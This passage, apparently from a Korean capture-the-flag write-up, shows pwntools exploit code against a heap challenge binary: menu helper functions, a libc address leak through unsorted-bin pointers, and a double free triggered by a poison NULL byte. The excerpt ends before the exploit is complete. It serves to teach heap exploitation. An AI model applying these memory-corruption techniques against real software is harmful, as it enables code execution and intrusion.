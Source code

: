 ```python
    r.sendlineafter("[+] input score.", str(score))

def delete(index):
    r.sendlineafter("[+] input menu.\n", 'd')
    r.sendlineafter("[+] input student index.\n", str(index))

def print_info(index):
    r.sendlineafter("[+] input menu.\n", 'p')
    r.sendlineafter("[+] input student index.\n", str(index))

def modify(index):
    r.sendlineafter("[+] input menu.\n", 'm')
    r.sendlineafter("[+] input student index.\n", str(index))
```

<br>

### libc leak

먼저 libc의 주소를 릭해봅시다. unsorted bin에 들어간 청크의 fd와 bk에 `main_arena+96`의 주소가 저장되는 것을 이용하여 릭을 할 수 있습니다.

```python
# libc leak
for i in range(8):
    add("N1be", 21, 13)
    for j in range(13):
        input_grade("", 100)

for i in range(8):
    delete(7 - i)

print_info(0)
r.recvuntil("[+] name: ")
libc = u64(r.recvn(6).ljust(8, b'\x00')) - 0x1ebbe0 # libc base
log.info("libc base: " + hex(libc))
```

![image](https://user-images.githubusercontent.com/59759771/98457108-bf805800-21c7-11eb-9d41-d73a44cd10ac.png)

<br>

### double free

`add()`에서 `malloc()`의 인자로 들어가는 `alloc_size`는 `0x28 * (num_subjects + 1)`이었습니다. `num_subjects`가 5이면 `malloc(0xf0)`이 실행되어 `0x100` 크기의 청크가 반환되고, `num_subjects`가 6이면 `malloc(0x118)`이 실행되어 `0x120` 크기의 청크가 반환됩니다.

<br>

```python
# double free
add("N1be", 21, 6) # index: 0
for i in range(6):
    input_grade("", 100)

add("N1be", 21, 6) # index: 1
for i in range(6):
    input_grade("", 100)

delete(1)
modify(0)
for i in range(5):
    input_grade("", 100)
input_grade('a' * 0x1f, 100) # poison NULL byte
delete(1) # double free
```
